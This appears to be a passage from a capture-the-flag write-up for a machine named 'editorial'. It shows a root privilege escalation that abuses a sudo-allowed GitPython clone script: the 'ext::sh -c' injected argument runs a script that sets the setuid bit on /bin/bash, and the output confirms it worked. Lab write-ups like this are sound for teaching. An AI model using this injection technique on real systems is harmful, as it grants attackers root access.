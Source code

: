 This user can execute the following as `sudo`:

```ssh
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

```shell
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Searching for an exploit, we find [SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

So create a simple script to change `/bin/bash` permissions.

```shell
prod@editorial:~$ cat script.sh 
chmod +s /bin/bash
```

And execute the `sudo` command:

```shell
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /home/prod/script.sh'
...
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c bash% /home/prod/script.sh new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:~$ ls -alh /bin/bash
-rwsr-sr-x 1 root root 1.4M Mar 14  2024 /bin/bash

```
